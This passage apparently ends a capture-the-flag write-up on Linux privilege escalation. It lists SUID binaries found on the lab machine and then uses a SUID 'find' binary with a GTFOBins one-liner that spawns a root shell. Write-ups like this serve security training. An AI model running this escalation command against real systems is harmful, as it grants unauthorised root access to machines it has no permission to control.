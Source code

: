 ```
/usr/bin/arping 
/usr/bin/passwd
/usr/bin/traceroute6.iputils 
/usr/bin/sudo
/usr/bin/newgrp
/snap/core/8689/bin/mount 
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6 
/snap/core/8689/bin/su  
/snap/core/8689/bin/umount  
/snap/core/8689/usr/bin/chfn 
/snap/core/8689/usr/bin/chsh   
/snap/core/8689/usr/bin/gpasswd  
/snap/core/8689/usr/bin/newgrp  
/snap/core/8689/usr/bin/passwd  
/snap/core/8689/usr/bin/sudo 
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core/8689/usr/lib/openssh/ssh-keysign 
/snap/core/8689/usr/lib/snapd/snap-confine 
/snap/core/8689/usr/sbin/pppd
/snap/core/9436/bin/mount
```

![image](https://user-images.githubusercontent.com/87468669/195772368-48958c06-b1fe-4d01-8631-803b050c4a93.png)

we have an SUID `/usr/bin/find` let's abuse the bin and get root. From gtfobins we can see the payload to use in abusing the bin.

![image](https://user-images.githubusercontent.com/87468669/195772606-9696048f-d01a-455b-95d6-d6a5947a5a8d.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://user-images.githubusercontent.com/87468669/195772861-5ab06ee1-26c1-4b01-b300-6ee02f14c8c7.png)

We are root!. hope you had fun😉.
